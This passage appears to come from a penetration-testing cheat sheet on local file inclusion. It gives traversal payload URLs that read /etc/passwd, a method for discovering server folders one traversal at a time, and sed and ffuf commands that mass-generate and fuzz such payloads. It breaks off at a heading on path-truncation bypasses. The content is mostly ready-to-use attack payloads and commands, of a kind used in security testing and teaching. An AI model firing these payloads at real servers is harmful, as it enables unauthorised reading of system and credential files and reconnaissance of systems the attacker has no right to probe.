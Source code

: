 ### From existent folder

Maybe the back-end is checking the folder path:

```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

### Identifying folders on a server

Depending on the applicative code / allowed characters, it might be possible to recursively explore the file system by discovering folders and not just files. In order to do so:

* identify the "depth" of you current directory by succesfully retrieving `/etc/passwd` (if on Linux):

```
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```

* try and guess the name of a folder in the current directory by adding the folder name (here, `private`), and then going back to `/etc/passwd`:

```
http://example.com/index.php?page=private/../../../../etc/passwd # we went deeper down one level, so we have to go 3+1=4 levels up to go back to /etc/passwd 
```

* if the application is vulnerable, there might be two different outcomes to the request:
  * if you get an error / no output, the `private` folder does not exist at this location
  * if you get the content from `/etc/passwd`, you validated that there is indeed a `private`folder in your current directory
* the folder(s) you discovered using this techniques can then be fuzzed for files (using a classic LFI method) or for subdirectories using the same technique recursively.

It is possible to adapt this technique to find directories at any location in the file system. For instance, if, under the same hypothesis (current directory at depth 3 of the file system) you want to check if `/var/www/` contains a `private` directory, use the following payload:

```
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```

The following sequence of commands allows the generation of payloads using `sed` (1) as input for url fuzzing tools such as `ffuf` (2):

```
$ sed 's_^_../../../var/www/_g' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt | sed 's_$_/../../../etc/passwd_g' > payloads.txt
$ ffuf -u http://example.com/index.php?page=FUZZ -w payloads.txt -mr "root"
```

Of course, adapt there payloads to your needs in terms of depth / location / input directory list.

### **Path truncation**

Bypass the append of more chars at the end of the provided string (bypass of: $\_GET\['param']."php")
